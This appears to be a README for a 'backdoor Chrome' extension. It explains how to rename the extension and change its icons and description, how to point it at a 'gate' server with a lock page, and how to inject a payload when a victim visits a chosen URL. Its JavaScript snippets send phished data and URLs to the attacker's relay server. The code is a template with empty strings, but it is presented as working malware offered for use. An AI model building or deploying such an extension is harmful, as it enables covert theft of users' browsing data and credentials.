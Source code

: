 ![backdoor Chrome](http://s9.postimg.org/vvo5ncxy7/chrome.png)

## Change name, icones, description

change it on manifest

![Backdoor chrome](http://s15.postimg.org/yf0rmsfuj/rename.png)

## Change Gate
```JavaScript
    var server_web = "http://localhost:8888/"
    var lock_page = "relais/lock.php"
    var gate_page = "relais/index.php"
```

## lock.php

Update lock page with 1

![Backdoor lock](http://s27.postimg.org/vahc0lb8z/lock.png)

## Check URL
( js/check.js )
```JavaScript
    // VERIFIED D'URL
    if(tabURL.indexOf('') !== -1 ) // url in ''
    {
        Payload_exemple();
    }
```

## Create payload
( js/check.js )
```JavaScript
    // PAYLOAD FUNCTION NEED HTTPS
    function Payload_exemple()
    {
        console.log('Injected here')
        var urls = "" // Var for URL
        var phish = "" // Var for logs 
        $.get(server_web+gate_page, { info: phish, url: urls } );
    }
```

## Go to web relais

```shell
Url = 
Login = 
```